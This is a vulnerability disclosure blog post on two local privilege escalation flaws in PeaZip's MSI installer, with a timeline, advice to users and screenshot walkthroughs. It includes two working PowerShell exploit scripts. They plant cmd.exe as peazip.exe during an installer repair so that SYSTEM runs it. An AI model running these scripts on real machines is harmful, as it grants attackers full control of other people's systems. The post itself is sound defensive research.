This blog describes two local privilege escalation (LPE) vulnerabilities in [PeaZip](https://github.com/peazip/PeaZip), affecting versions up to 8.8.0. The vulnerabilities allow a low privileged user to become `NT AUTHORTY\SYSTEM`.

The vulnerabilities were found during a challenge. As I last year found that [MSI installers created with "EXEMSI MSI Installer" can be vulnerable to LPE](https://improsec.com/tech-blog/privilege-escalation-vulnerability-in-ninjarmm); I thought more applications that use vulnerable EXEMSI versions must exist.
Indeed there was one application, PeaZip. Surprisingly a second simple LPE was also found.

Only installations made with the MSI installer on PeaZip's GitHub are vulnerable:


**Advice to PeaZip users**
* Delete the MSI installer associated with PeaZip in `C:\Windows\Installer`

**Advice to all developers**:
* Subscribe to security advisories from all third-party tools, libraries, and other vendors.
* Update third-party tools and libraries frequently.

## Timeline
* September 8-12. 2022: Vulnerabilities discovered
* September 13, 2022: Informed PeaZip about the vulnerabilities
* September 13, 2022: PeaZip confirmed vulnerability
* October 9, 2022: PeaZip releases version 8.9.0 with no MSI installer

**Developer acknowledgement**


### CVEs registered & affected versions
* CVE-2022-40779, Windows Installer Local Privilege Escalation due to 'EXEMSI MSI Installer' vulnerability
	* CVSS 8.8 - [AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
	* Affects PeaZip from version 7.7.1 through 8.8.0 if installed with the MSI installer.
	* MITRE ATT&CK technique: [Hijack Execution Flow: Executable Installer File Permissions Weakness](https://attack.mitre.org/techniques/T1574/005/)
* CVE-2022-(CVE pending), Windows Installer Local Privilege Escalation by controlling program directory
	* CVSS 8.8 - [AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
	* Affects PeaZip at least since version 5.4.0 through 8.8.0 if installed with the MSI installer.

## CVE-2022-40779 - Windows Installer Local Privilege Escalation due to 'EXEMSI MSI Installer' vulnerability
### Description
Insecure Access Control in MSI installer package of PeaZip version 7.7.1 to 8.8.0 allows attackers to perform local privilege escalation by winning a race condition during a "Repair".

### Background
In 2021, I disclosed a [local privilege escalation vulnerability in NinjaRMM Agent](https://improsec.com/tech-blog/privilege-escalation-vulnerability-in-ninjarmm) which was introduced as the NinjaOne developers used [EXEMSI MSI Wrapper](https://www.exemsi.com/) to “wrap” the EXE in an MSI allowing for easier deployment. Prior to my disclosure EXEMSI contacted their customers, and I identified and contacted other software vendors using the vulnerable MSI Wrapper to create awareness of the vulnerability.

Identification of MSI Wrapper use was possible as MSI Wrapper adds the comment "Installer wrapped by MSI Wrapper":


Most results are from online malware analysis tools, for example [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)'s `Write-UserAddMSI` was found to be using MSI Wrapper:


At the time I did not identify PeaZip, but by searching again I found PeaZip may be wrapped by MSI Wrapper:


Properties of the latest MSI from PeaZip's GitHub (left), and the MSI in `C:\Windows\Installer` post installation (right) confirms the SourceForge finding:


### Walkthrough
More details on identifying and exploiting the EXEMSI MSI Installer vulnerability can be read in [the original NinjaRMM blog post](https://improsec.com/tech-blog/privilege-escalation-vulnerability-in-ninjarmm).

`MsiExec.exe` is executed with the repair flag `/fa` as the low privileged user:


ProcMon shows the executable `peazip-8.8.0.WIN64.exe` is written to the low privileged user's `AppData\Local\Temp\` and later executed by System:


The race-condition code from the NinjaRMM blog post is modified with new paths, and the exploit is run (each step corresponding to the steps in the below screenshot):
1. The exploit code being executed.
2. Executing the PeaZip Windows Installer repair.
3. The PeaZip Installer executing.
4. The executable file (cmd.exe) opened by MsiExec as `nt authority\system`.



ProcMon shows the race condition was won:


A second later, the attacker-placed binary is executed by System:


## CVE-2022-(CVE pending) - Windows Installer Local Privilege Escalation by controlling program directory
### Description
Insecure Access Control in MSI installer package of PeaZip version 5.4.0 through 8.8.0 allows attackers to perform local privilege escalation by controlling the program directory during a "Repair".

### Walkthrough
**Method 1 - requires administrator interaction**
`MsiExec.exe` is executed with the repair flag `/fa` as the low privileged user. Either the `Custom installation` or `No system integration` option is chosen in the installer GUI:


The program directory is set to one the low privileged user is granted exploitable rights to (e.g. Full Control, Write, or Write Permissions). A stealthy directory could be `C:\ProgramData`, as low privileged users have Write rights (Create files/write data -> search order hijacking). For this walkthrough the user's local AppData is chosen:


After reinstallation, all users of the system will still have PeaZip shortcuts:


These shortcuts are stored in the Windows Start Menu directory:


But all shortcuts, e.g. `PeaZip.lnk`, targets the new PeaZip program directory `C:\Users\nonroot\AppData\Local\PeaZip\peazip.exe`:


The new program directory:


The low privileged user is granted Full control on the directory and inherited to its binaries, e.g. `peazip.exe`:


Next Everyone is granted read and execute to the new program directory:


Next time a high privileged user executes PeaZip, e.g. via shortcuts or the right-click context menu, the low privileged user can obtain privilege escalation by replacing or backdoor binaries, or performing search order hijacking.

**Method 2a - no interaction required, with file lock**
During analysis I noticed the installer writes `peazip.exe` to the new program directory and afterwards executes the binary as System.

This method has three preparation steps:
1. Create the new program directory before the installer in a low privileged user-controlled path.
2. Write a malicious binary as `peazip.exe` before the reinstall, in this walkthrough `cmd.exe`, and lock it from being overwritten.
3. Start the reinstall and install PeaZip at the prepared program directory.

During reinstallation the installer will detect the file lock but gives the option not close the locking process:


A DeleteFile error also appears which is also possible to ignore:


The installation continues and a System `cmd.exe` process spawns:


Below is code to automate most of the exploit (except GUI clicking):


Exploit code for Method 2a:
```
$ErrorActionPreference = "Stop"
# Find MSI file
$msi = $null
Get-ChildItem $env:windir\Installer -Filter "*.msi" | foreach {
    $shell = New-Object -COMObject Shell.Application
    $folder = Split-Path $_.FullName
    $file = Split-Path $_.FullName -Leaf
    $shellfolder = $shell.Namespace($folder)
    $shellfile = $shellfolder.ParseName($file)
    if ($shellfolder.GetDetailsOf($shellfile, 20) -eq "Giorgio Tani") {
        $msi = $_
    }
}
if ($msi -eq $null) {
    "MSI file not found"
    trow
} else {
    "MSI file found at " + $msi.FullName
}

# Get binary
[byte[]] $exeBytes = (Get-Content -Encoding Byte -Path $env:ComSpec) -split ' '

# Start MSI repair
msiexec.exe /fa $msi.FullName

# Copy binary to dir
$exe = "peazip.exe"
$dir = $env:LOCALAPPDATA + "\PeaZip"
New-Item $dir -ItemType Directory -Force | Out-Null
"Created directory $dir"
$exePath = $dir + "\" + $exe
[System.IO.File]::WriteAllBytes($exePath, $exeBytes)
$fileStream = [System.IO.File]::Open($exePath, "Open", "Read", "Read")
"Written binary $exePath"

"Starting MSI installer. Follow:"
"1. I accept the agreement"
"2. Custom installation"
"3. Set directory: $dir"
"4. Yes to use already existing directory"
"5. Next> Next> Next> Next> Next> Install"
"6. Do not close the applications"
"7. Ignore"
"8. Shell poppin'"

Read-Host "8. Press return after you get shell (to release file lock)."
$fileStream.Close()
```

**Method 2b - no interaction required, with race condition**
Method 2b uses the same `peazip.exe` binary but with a race condition. Here the race condition waits for the file `peazip.url` to be created before it overwrites `peazip.exe`, as this is after the last write to `peazip.exe` but before System execution of `peazip.exe`. This will avoid the Method 2a file lock errors.

A script is run which deletes `peazip.url` and starts monitoring for `peazip.url` creation:


Creation of `peazip.url` is detected and the malicious `peazip.exe` is written and locked:


Lastly the malicious binary is executed by the installer as System:


Execution with code is seen below:


Exploit code for Method 2b:
```
[byte[]] $exeBytes = (Get-Content -Encoding Byte -Path C:\Windows\System32\cmd.exe) -split ' '
$dir = $null
$exe = "peazip.exe"
$dir = "C:\Users\nonroot\AppData\Local\PeaZip"
Remove-Item ($dir + "\peazip.url")
Write-Host "exe loaded, launch installer now."
while(1) {
    if (Test-Path ($dir + "\peazip.url")) {
        $exePath = $dir + "\" + $exe
        try {
            [System.IO.File]::WriteAllBytes($exePath, $exeBytes)
            $fileStream = [System.IO.File]::Open($exePath, "Open", "Read", "Read")
        
            Read-Host "Press return when done/if you get shell (to release file lock)."
        
            $fileStream.Close()
        } catch {
            Read-Host "Lost race condition."
        }
        return
    }
}
```
